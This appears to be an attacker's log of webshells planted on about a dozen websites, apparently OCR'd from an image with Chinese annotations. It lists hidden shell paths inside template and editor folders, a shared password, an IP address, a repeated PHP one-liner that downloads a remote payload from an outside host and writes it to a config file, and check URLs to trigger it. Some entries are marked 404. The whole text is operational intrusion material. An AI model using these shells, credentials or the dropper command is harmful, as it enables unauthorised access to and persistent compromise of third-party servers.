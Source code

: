 http://zanghongqu.com/template/zy/swiper-4.3.5/js/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://zanghongqu.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://zanghongqu.com/config/httpd.php?d=up

http://sdxy-uav.com/template/cglx/js/1m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://sdxy-uav.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://sdxy-uav.com/config/httpd.php?d=up

http://scshugao.com/template/shugao/font-awesome-4.7.0/css/3m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://scshugao.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://scshugao.com/config/httpd.php?d=up

http://schuayidl.com/images/admin/m12.php |mmk123 |  101.132.249.167   | 404

http://schhs.cn/template/default/static/js/m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://schhs.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://schhs.cn/config/httpd.php?d=up

http://sc-lexus.com.cn/editor/plugins/div/dialogs/m12.php |mmk123 |  101.132.249.167  | 404

http://lvsenlong.cn/template/default/fileinput/img/m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://lvsenlong.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://lvsenlong.cn/config/httpd.php?d=up

http://www.izangyao.com/upload/ckeditor/images/1m12.php |mmk123 |  101.132.249.167   404
http://iboate.com/editor/skins/office2003/images/m12.php |mmk123 |  101.132.249.167
https://www.i-orange.com.cn/template/orange/js/admin/m12.php |mmk123 |  101.132.249.167
http://hkdhsj.com/editor/plugins/dialog/m12.php |mmk123 |  101.132.249.167

http://gediaomedia.com/template/default/js/m123.php |mmk123 |http://www.scgzw.org/ ->D:/www/gzw_frontend/ | 101.132.249.167
代码更新：0608 ✅
http://gediaomedia.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://gediaomedia.com/config/httpd.php?d=up
http://gediaomedia.com/template/default/js/m123.php |mmk123 |  101.132.249.167
